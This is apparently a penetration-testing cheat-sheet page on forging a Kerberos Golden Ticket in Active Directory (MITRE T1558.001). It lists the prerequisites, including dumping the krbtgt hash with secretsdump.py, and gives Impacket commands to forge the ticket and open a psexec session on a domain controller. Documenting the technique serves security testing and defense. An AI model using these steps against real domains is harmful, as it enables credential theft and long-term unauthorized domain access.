 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558.001
---
```


# Forge Golden Ticket

### Description

A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Tickets. A golden ticket will allow you to persist in an environment almost indefinitely.

### Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller.
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller.
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain.

### Creating a Golden Ticket on Linux with Impacket

1\. Use ticket.py to customize, sign, and save the ticket:

```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]
```

2\. Export the ticket:

```bash
export KRB5CCNAME=[USER.CCACHE]
```

3\. Authenticate with the created ticket to the domain controller:

```bash
psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]
```

### References

{% embed url="https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained" %}

{% embed url="https://yojimbosecurity.ninja/golden-ticket-with-impacket" %}
